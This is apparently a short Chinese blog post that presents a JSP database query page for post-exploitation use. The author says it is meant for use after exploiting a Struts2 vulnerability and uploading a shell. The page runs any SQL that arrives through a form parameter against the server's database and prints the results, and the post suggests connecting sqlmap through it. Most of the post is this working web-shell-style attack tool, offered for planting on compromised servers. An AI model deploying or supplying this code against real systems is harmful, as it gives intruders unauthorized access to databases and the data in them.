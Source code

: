 ```yaml
---
layout: post
title: Jsp 数据库连接工具
---
```


再玩struts2漏洞的时候,传shell,找数据库配置文件，当没开外网的时候，可以直接用下面的脚本。

###
    <%@ page import="java.sql.*" %>
    <%@ page import="java.util.*" %>
    <%@ page import="java.io.*" %>
    <%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>
    <form>
      <textarea rows="4" cols="60" name="query"></textarea></br>
      <button type="submit">executeQuery</button>
    </form>
    <%

    try {

        String sql = request.getParameter("query");
        out.println(sql+"</br>");
        String driver = ""; 
        String url = "";
        String username = "";
        String password = "";
        Class.forName(driver).newInstance();
        Connection conn = DriverManager.getConnection(url,username,password);
    
        Statement stmt = conn.createStatement();
        ResultSet rs = stmt.executeQuery(sql);
        ResultSetMetaData rsmd = rs.getMetaData();
        int num = rsmd.getColumnCount();
    
        while(rs.next()) {
            for (int i=1; i<=num; i++){
                     
                    out.println(rs.getString(i)+"&nbsp");
           }
           out.println("</br>");
     }
   
        rs.close();
        stmt.close();
        conn.close();

    } catch (Exception e) {
        response.setStatus(200);
        e.printStackTrace();
    }


    %>
    
自己配置好了之后可以用来直接执行数据库操作，或者外连sqlmap.

